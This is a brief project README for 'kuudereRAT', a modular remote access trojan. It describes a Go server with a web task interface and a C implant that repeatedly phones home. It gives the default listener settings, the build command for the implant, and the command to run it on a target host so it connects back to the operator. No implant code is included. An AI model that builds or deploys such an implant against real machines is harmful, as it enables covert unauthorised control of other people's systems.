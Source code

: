 # kuudereRAT
modular RAT

# Usage 
in ```src/server``` directory edit main.go and select options for listener the default is set to listen on ```0.0.0.0:23855``` and the webserver to be started on ```8080```

# Functionality
Phones home to server repeatedly. Tasks are written as modules in Go and the implant will pick up and run a task if one is available. 

# Implant
Current fully functional implant is ```src/client/alt/phonehome-1.c``` and it can be built with ```gcc -o implant phonehome-1.c -ldl```

# Running
```go run main.go``` to startup the server and web interface.
Tasks are loaded through the web interface.

The implant is run the target host ```./implant <ipaddr> <port>```